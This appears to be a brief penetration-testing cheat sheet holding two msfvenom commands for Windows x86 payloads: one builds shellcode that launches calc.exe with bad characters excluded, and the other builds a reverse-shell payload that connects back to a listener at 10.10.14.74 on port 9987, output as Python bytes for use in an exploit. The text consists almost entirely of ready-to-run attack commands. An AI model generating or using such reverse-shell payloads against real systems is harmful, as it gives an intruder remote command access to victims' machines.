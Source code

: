 
# Exec a command 
msfvenom -a x86 -p windows/exec CMD=calc.exe -b '\x00\x0A\x0D' -f python

# Connect using a reverse shell (uses x86/shikata_ga_nai)
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.74 LPORT=9987 EXITFUNC=thread -b "\x00\x0d\x0a" -f python